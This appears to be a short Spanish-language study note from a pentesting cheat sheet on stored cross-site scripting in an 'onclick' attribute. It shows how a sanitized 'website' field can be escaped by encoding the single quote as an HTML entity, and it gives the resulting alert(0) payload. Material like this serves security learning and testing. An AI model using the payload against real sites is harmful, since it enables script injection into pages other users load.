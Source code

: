 # XSS Almacenado 

Tags: #XSS-Stored #JavaScript 

## XSS almacenado en 'onclick' con codificación completa 

```javascript 
// El campo vulnerable se encuentra en la parte del 'website'

	https://web.com'    // El código esta sanitizado, por lo tanto escapa la comilla agregada
	https://web.com&apos;
		' = &apos;     // Representar la ' de otra manera 

	https://web.com&apos;+alert(0)+&apos;    
```